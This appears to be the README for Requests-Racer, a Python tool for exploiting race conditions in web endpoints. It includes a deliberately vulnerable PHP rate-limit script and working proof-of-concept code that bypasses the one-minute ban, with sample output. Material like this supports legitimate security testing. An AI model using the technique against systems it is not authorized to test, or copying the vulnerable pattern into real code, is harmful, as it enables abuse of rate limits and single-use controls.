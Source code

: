 # The Problem

Suppose you have an endpoint vulnerable to a race condition. For example, consider this endpoint that you are not supposed to be able to access more often than once per minute:

```php
<?php
$now = microtime(true);
$ban_time = (float) file_get_contents('./race.ban');

echo "start: $now\n";

if ($now <= $ban_time) {
    die("you're banned\n");
}

usleep(100000); // do some processing for 100ms
echo "success\n";

file_put_contents('./race.ban', microtime(true) + 60); // ban for 1 minute
```

How do you quickly build a PoC for this?

# Python-Requests: absolutely useless

You might try using Requests, but that will perform the calls in series, so their execution will not overlap at all:

```python
>>> import requests
>>> res = [requests.get('https://example.com/race.php') for _ in range(3)]
>>> for req in res: print(req.text)
...
start: 1562013897.9938
success

start: 1562013898.914
you're banned

start: 1562013899.9254
you're banned

```

# cURL: not great, not terrible

You might try running mutiple instances of cURL in parallel, and that's a little better:

```
aleksejs@aleksejs-T440s:~$ curl https://example.com/race.php \
                         & curl https://example.com/race.php \
                         & curl https://example.com/race.php \
                         & curl https://example.com/race.php \
                         & curl https://example.com/race.php
[1] 25671
[2] 25672
[3] 25673
[4] 25674
start: 1562015106.736
start: 1562015106.78
success
start: 1562015106.8535
you're banned
success
start: 1562015106.8786
start: 1562015106.8795
you're banned
you're banned
[1]   Done                    curl https://example.com/race.php
[2]   Done                    curl https://example.com/race.php
[3]-  Done                    curl https://example.com/race.php
[4]+  Done                    curl https://example.com/race.php
```

We've triggered the race once, but the rest of the requests arrived too late. And if you need to send large payloads of different sizes, you're going to have an even worse time:

```
aleksejs@aleksejs-T440s:~$ curl https://example.com/race.php -d "@/tmp/1kbytes" \
                         & curl https://example.com/race.php -d "@/tmp/10kbytes" \
                         & curl https://example.com/race.php -d "@/tmp/100kbytes" \
                         & curl https://example.com/race.php -d "@/tmp/1000kbytes" \
                         & curl https://example.com/race.php -d "@/tmp/1000kbytes"
[1] 25721
[2] 25722
[3] 25723
[4] 25724
start: 1562015251.716
start: 1562015251.7541
success
success
start: 1562015252.1507
you're banned
start: 1562015253.7403
you're banned
start: 1562015253.9519
you're banned
[1]   Done                    curl https://example.com/race.php -d "@/tmp/1kbytes"
[2]   Done                    curl https://example.com/race.php -d "@/tmp/10kbytes"
[3]-  Done                    curl https://example.com/race.php -d "@/tmp/100kbytes"
[4]+  Done                    curl https://example.com/race.php -d "@/tmp/1000kbytes"

```

Those last three requests had no chance of succeeding.

Plus the output has all of this useless garbage in it and the outputs from the different requests are basically in a random order and interleaved. If you need to generate the requests dynamically, have fun writing that bash script, and if you want to process the output in any way, well, I don't envy you.

# The real solution

Running cURL in parallel synchronizes the time when the three requests will be *started*. But what you actually want to synchronize is the time when they *are sent completely* (and the server begins processing them). Because of network latency, synchronizing the former does not do a good job of synchronizing the latter, especially if your request payloads are large or differently-sized.

The way to synchronize the time when the request is done being sent is to first send most of the request in a mostly completely unsynchronized fashion, then synchronize the moment when you begin sending the last byte of each request.

Requests-Racer does this for you, while retaining the Requests API that you know and love:

```python
from requests_racer import SynchronizedSession

NUM_ATTEMPTS = 10

s = SynchronizedSession()

responses = [
    s.get('https://example.com/race.php') for _ in range(NUM_ATTEMPTS)
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562363494.288 1562363494.3031 1562363494.2941 1562363494.3054 1562363494.2977 1562363494.292 1562363494.2924 1562363494.3073 1562363494.2944 1562363494.3039
# outcomes: success success success success success success success success success success
```

```python
import time
from requests_racer import SynchronizedSession

s = SynchronizedSession()

responses = [
    s.post(
        'https://example.com/race.php',
        files={'a': open('/tmp/{}kbytes'.format(n), 'rb')}
    )
    for n in [1, 1, 10, 10, 100, 100, 1000, 1000, 1000, 1000]
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562363568.1738 1562363568.1745 1562363568.1751 1562363568.1747 1562363568.1738 1562363568.1753 1562363568.2005 1562363568.2007 1562363568.2005 1562363568.2039
# outcomes: success success success success success success success success success success
```

The requests are all processed by the backend within less than *30ms* of each other, even when they have massively different sizes.
